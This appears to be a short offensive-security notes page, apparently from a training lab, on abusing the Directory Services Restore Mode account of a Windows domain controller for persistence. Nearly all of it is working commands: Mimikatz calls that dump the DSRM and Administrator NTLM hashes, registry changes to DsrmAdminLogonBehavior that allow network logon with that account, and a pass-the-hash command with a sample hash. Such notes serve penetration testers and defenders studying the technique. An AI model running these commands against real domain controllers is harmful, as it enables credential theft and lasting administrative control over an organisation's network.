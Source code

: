 # DSRM

Directory Services Restore Mode (DSRM) is a Safe Mode boot option for Windows Server domain controllers and the main purpose of DSRM is to help system admins log in to the system to restore or repair an AD database.\
\
Every Domain controller has local administrator account called "Administrator" and his password is the DSRM password.



## Dump DSRM NTLM hash

{% hint style="info" %}
Require Domain Admin privileges
{% endhint %}

<pre class="language-powershell"><code class="lang-powershell"><strong># dumping from sam - DSRM local Administrator hash
</strong><strong>Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' 
</strong></code></pre>

```powershell
# dumping from lsass - Administrator hash
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' 
```



## Change Logon Behavior

In order to use DSRM account hash we need to change his registry key

<pre class="language-powershell"><code class="lang-powershell"><strong># Entering DC session
</strong><strong>Enter-PSSession -ComputerName dcorp-dc
</strong><strong>
</strong># Check if key exists
Get-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Lsa\' -Name 'DsrmAdminLogonBehavior'

# If exists set his value to 2
Set-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Lsa\' -Name 'DsrmAdminLogonBehavior' -Value 2 -Verbose

# If does not exist create it and set his value to 2
New-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Lsa\' -Name 'DsrmAdminLogonBehavior' -Value 2 -PropertyType DWORD -Verbose
</code></pre>



## Passing the hash

```powershell
# /domain - the domain controller
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator
/ntlm:a102ad5753f4c441e3af31c97fad86fd 
/run:powershell.exe"'


# Check if worked
ls \\dcorp-dc\C$
```

